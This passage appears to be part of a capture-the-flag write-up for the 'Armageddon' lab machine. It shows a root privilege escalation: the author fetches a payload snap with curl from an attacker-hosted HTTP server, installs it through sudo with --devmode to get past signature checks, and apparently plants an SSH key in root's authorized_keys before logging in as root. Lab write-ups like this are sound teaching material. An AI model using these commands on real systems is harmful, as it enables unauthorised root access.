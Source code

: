 
### Transfer to Armageddon

I’ll start a Python HTTP server in the directory on my local box where the
snap package is:

    
    
    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

Now from Armageddon, I’ll request it. `wget` isn’t installed, but `curl` is:

    
    
    [brucetherealadmin@armageddon shm]$ curl 10.10.14.7/armageddon_0.1_amd64.snap -o armageddon_0.1_amd64.snap
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  4096  100  4096    0     0  21478      0 --:--:-- --:--:-- --:--:-- 21671
    

### Install Snap

To install the package, I’ll run the command with `sudo` and pass it the snap.
It fails:

    
    
    [brucetherealadmin@armageddon shm]$ sudo snap install armageddon_0.1_amd64.snap 
    error: cannot find signatures with metadata for snap "armageddon_0.1_amd64.snap"
    

Some [Googling](https://askubuntu.com/questions/822765/snap-install-failure-
error-cannot-find-signatures-with-metadata-for-snap) this error suggested
adding `--dangerous`, which now gives a different error:

    
    
    [brucetherealadmin@armageddon shm]$ sudo snap install --dangerous armageddon_0.1_amd64.snap 
    error: snap "armageddon_0.1_amd64.snap" requires devmode or confinement override
    

Googling that leads to [posts](https://askubuntu.com/questions/783945/what-is-
devmode-for-snaps) about `--devmode`, which works:

    
    
    [brucetherealadmin@armageddon shm]$ sudo snap install --devmode armageddon_0.1_amd64.snap 
    armageddon 0.1 installed
    

### SSH

If that install worked as I hope, my public key is now in
`/root/.ssh/authorized_keys`, and I should be able to connect with SSH. It
worked:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.233
    Last login: Fri Mar 19 07:56:39 2021
    [root@armageddon ~]# 
    